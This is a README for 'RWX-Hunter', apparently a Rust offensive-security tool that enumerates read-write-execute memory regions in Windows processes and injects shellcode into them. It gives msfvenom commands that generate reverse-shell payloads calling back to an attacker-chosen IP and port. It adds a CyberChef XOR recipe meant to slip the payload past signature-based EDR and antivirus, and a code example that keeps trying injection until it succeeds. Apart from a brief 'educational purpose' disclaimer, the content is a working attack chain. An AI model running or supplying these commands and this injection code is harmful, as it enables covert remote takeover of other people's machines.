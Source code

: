 # RWX-Hunter


Enumerating RWX Protected Memory Regions for Code Injection.

> [!NOTE]
> Developed with the intension of using this tool only for educational purpose.

Generate shellcode (example):

msfvenom -p windows/x64/shell_reverse_tcp -a x64 -f num LHOST=\<IP\> LPORT=\<PORT\>\
msfvenom -p windows/shell_reverse_tcp -a x86 -f num LHOST=\<IP\> LPORT=\<PORT\>

Obfuscate it with static xor key for signature based EDR/AV (example key: 0xC 0x3 0xFA 0x8 0x3)
<https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')XOR(%7B'option':'Hex','string':'0xC0x30xFA0x80x3'%7D,'Standard',false)To_Hex('0x%20with%20comma',0)Find_/_Replace(%7B'option':'Simple%20string','string':','%7D,',%20',true,false,true,false)&oeol=FF>

Inspired by: <https://www.ired.team/offensive-security/defense-evasion/finding-all-rwx-protected-memory-regions>

## Example

```rust
let mut hunter = RWXhunter::new(vec![0], vec![0], vec![12, 3, 250, 8, 3].into(), API::Native);
while hunter.find_next_candidate().is_ok() {
    if hunter.inject().is_ok() {
        return Ok(());
    }
}
```

## Installation

```bash
cargo run
```

## Contributing

Pull requests are welcome. For major changes, please open an issue first
to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License

[MIT](https://choosealicense.com/licenses/mit/)

